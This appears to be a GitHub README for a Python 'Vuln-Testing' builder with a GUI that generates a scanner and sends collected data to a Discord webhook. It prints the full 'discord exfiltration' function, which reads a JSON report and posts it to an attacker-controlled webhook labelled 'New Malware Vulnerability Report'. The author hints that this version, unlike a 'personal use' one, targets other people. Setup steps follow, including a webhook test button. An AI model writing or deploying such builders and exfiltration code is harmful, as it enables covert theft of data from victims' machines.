 # Vuln-Testing
A Vulnerability testing Python Builder script that makes the scanner and then sends collected data to a discord webhook. Made by Mitan7. I have another script like this, though no discord, and *actually* personal use. 

# Some Code
This is in python. It imports:
```
import tkinter as tk
from tkinter import messagebox, scrolledtext
import os
import sys
import requests
```
It also uses this discord exfiltration:
```
def send_to_discord(json_file_path):
    try:
        with open(json_file_path, "r") as f:
            data = f.read()

        payload = {
            "content": f"New Malware Vulnerability Report:\n```json\n{data}\n```"
        }

        response = requests.post(WEBHOOK_URL, json=payload)

        if response.status_code == 204 or response.status_code == 200:
            print("Report successfully sent to Discord webhook!")
        else:
            print(f"Failed to send report: {response.status_code} - {response.text}")
    except Exception as e:
        print(f"Error sending to Discord: {e}")

send_to_discord(json_path)
```
See? 

# How to use

First of all. Download this repo (*Duh*). Then run `Builder.py` in the `Vuln Builder` folder. It should make a GUI pop up. It is very simple to follow. Even has a simple `test Webhook` button that tests if your webhook actually functions by sending a test message ("`Test message from Builder.py`")
